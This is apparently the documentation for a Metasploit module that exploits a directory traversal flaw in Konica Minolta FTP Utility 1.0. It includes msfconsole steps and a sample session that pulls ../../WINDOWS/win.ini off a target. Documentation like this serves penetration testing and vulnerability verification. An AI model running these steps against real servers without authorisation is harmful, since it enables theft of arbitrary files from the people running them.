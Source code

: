 ## Vulnerable Application

This module exploits a directory traversal vulnerability found in Konica Minolta FTP Utility 1.0.
This vulnerability allows an attacker to download arbitrary files from the server by crafting a `RETR` command that includes file system traversal strings such as `..//`.

Link to Konica Minolta FTP Utility 1.00 software download [Exploit-DB](https://www.exploit-db.com/apps/6388a2ae7dd2965225b3c8fad62f2b3b-ftpu_10.zip)

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/auxiliary/scanner/ftp/konica_ftp_traversal`
  3. Do: `set RHOSTS [ip]`
  4. Do: `run`

## Scenarios

### Konica Minolta FTP Utility 1.00 on Windows 7 (X64)

  ```
  msf > use modules/auxiliary/scanner/ftp/konica_ftp_traversal
  msf auxiliary(scanner/ftp/konica_ftp_traversal) > set RHOSTS 1.1.1.1
    RHOSTS => 1.1.1.1
  set PATH ../../WINDOWS/win.ini
    PATH => ../../WINDOWS/win.ini
  msf auxiliary(scanner/ftp/konica_ftp_traversal) > run
  [+] 1.1.1.1:21      - Stored ../../WINDOWS/win.ini to /root/.msf4/loot/20191122042114_default_1.1.1.1_konica.ftp.data_003802.ini
  [*] 1.1.1.1:21      - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
